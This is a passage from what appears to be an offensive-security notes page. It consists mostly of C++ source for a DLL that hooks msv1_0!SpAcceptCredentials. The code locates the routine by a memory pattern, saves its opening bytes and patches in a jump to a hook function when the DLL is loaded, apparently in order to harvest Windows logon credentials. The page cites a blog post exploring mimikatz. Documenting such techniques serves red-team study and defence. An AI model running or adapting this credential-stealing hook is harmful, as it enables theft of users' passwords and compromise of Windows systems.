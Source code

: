 ```cpp
	patternStartAddressOfSpAccecptedCredentials = (LPVOID)(DWORD_PTR)GetPatternMemoryAddress((char *)targetModule, startOfPatternSpAccecptedCredentials, sizeof(startOfPatternSpAccecptedCredentials), sizeOfImage);
	addressOfSpAcceptCredentials = (LPVOID)((DWORD_PTR)patternStartAddressOfSpAccecptedCredentials - 16);

	// store first sizeof(bytesToRestoreSpAccecptedCredentials) bytes of the original msv1_0!SpAcceptCredentials routine
	std::memcpy(bytesToRestoreSpAccecptedCredentials, addressOfSpAcceptCredentials, sizeof(bytesToRestoreSpAccecptedCredentials));
	
	// hook msv1_0!SpAcceptCredentials with "mov rax, hookedSpAccecptedCredentials; jmp rax";
	DWORD_PTR addressBytesOfhookedSpAccecptedCredentials = (DWORD_PTR)&hookedSpAccecptedCredentials;
	std::memcpy(bytesToPatchSpAccecptedCredentials + 2, &addressBytesOfhookedSpAccecptedCredentials, sizeof(&addressBytesOfhookedSpAccecptedCredentials));
	std::memcpy(bytesToPatchSpAccecptedCredentials + 2 + sizeof(&addressBytesOfhookedSpAccecptedCredentials), (PVOID)&"\xff\xe0", 2);
	WriteProcessMemory(GetCurrentProcess(), addressOfSpAcceptCredentials, bytesToPatchSpAccecptedCredentials, sizeof(bytesToPatchSpAccecptedCredentials), (SIZE_T*)&bytesWritten);
}

BOOL APIENTRY DllMain(HMODULE hModule, DWORD  ul_reason_for_call, LPVOID lpReserved)
{
	switch (ul_reason_for_call)
	{
		case DLL_PROCESS_ATTACH:
		{
			installSpAccecptedCredentialsHook();
		}
		case DLL_THREAD_ATTACH:
		case DLL_THREAD_DETACH:
		case DLL_PROCESS_DETACH:
			break;
	}
	return TRUE;
}
```
{% endcode %}

## References

{% embed url="https://blog.xpnsec.com/exploring-mimikatz-part-2/" %}
